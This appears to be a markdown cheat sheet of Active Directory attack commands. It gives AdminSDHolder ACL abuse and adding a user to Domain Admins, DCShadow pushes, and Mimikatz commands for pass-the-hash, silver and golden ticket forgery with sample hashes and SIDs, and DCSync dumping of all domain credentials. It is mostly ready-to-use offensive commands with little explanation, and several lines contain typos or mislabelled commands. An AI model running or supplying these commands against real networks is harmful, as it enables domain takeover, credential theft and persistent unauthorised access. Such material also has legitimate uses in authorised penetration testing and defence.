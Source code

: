 ### AdminSDHolder Persistence
```
The User John has granted GenericAll Privilege.

Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName Joh -Verbose -Rights All

#The Following could be verify whether The unprivilege user John has GenericAll rights on the AdminSDHolder.

Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs | ?{$_.IdentityReference -match 'John'}

net group "domain admins" John /add /domain
```

###  DCShadow Persistence


DCShadow is a persistence technique which is  allowing an attacker to push malicious changes into the environment by modifying active directory objects.domain privileges is requiredto carry out this attack

DCShadow is persistence technique used by adversary to maintain access on compromise domain controller. to carry out such a persistence technique two active administrative session is required.one of which has to be domain privilege session and one of another session has to be system privilege session where compromised box.
```
lsadump::dcshadow /object:John-PC$ /attribute:badpwdcount /value=7777
lsadump::dcshadow /push

```
### Mimikatz 

| Pass-the-Hash  |
| ------------- |
|Invoke-Mimikatz -Command '"sekurlsa::pth /user:administrator /domain:ninja.corp  /target:ninja.corp /ntlm:a87f3a337d73085c45f9416be5787d86 /ptt "'|

|Silver Tickets  |
| ------------- |
|kerberos::golden /user:Administrator /domain:testlab.local /sid:S-1-5-21-1516486103-3973840447-1748718438 /target:ninja.corp  /rc4:47b1d9d581f29b3b43845692bd4a0322 /service:cifs /ptt|

|Golden Tickets |
| ------------- |
|Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:ninja.corp /sid: S-1-5-21-3107064655-183826745-1492997513 /krbtgt:a89f4db26e65cdf4bb6cb6c1a1990eec /ptt" '|
|Invoke-Mimikatz -Command '"kerberos::golden /user:evil /domain:ninja.corp /sid: S-1-5-21-3107064655-183826745-1492997513 /krbtgt:a89f4db26e65cdf4bb6cb6c1a1990eec /ptt" '|
|Invoke-Mimikatz -Command '"kerberos::golden /user:MeMe /domain:ninja.corp /sid: S-1-5-21-3107064655-183826745-1492997513 /krbtgt:a89f4db26e65cdf4bb6cb6c1a1990eec /ptt" '|
|kerbeos::golden /user:Administrator /krbtgt:HASH_KRBTGT /domain:ninja.corp /sid:S-1-5-21-2941561648-383941485-1389968811 /sids:S-1-5-SID-SECOND-DOMAIN-519 /ptt|

|DCSync |
| ------------- |
|lsadump::dcsync /domain:pentestlab.local /all /csv|
|Invoke-Mimikatz -Command '"lsadump::dcsync /domain:insomnia.ninja.corp /all /csv"'|
|Invoke-Mimikatz -Command '"lsadump::dcsync /user:krbtgt"'|
|Invoke-Mimikatz -Command '"lsadump::lsa /inject /name:krbtgt"'|
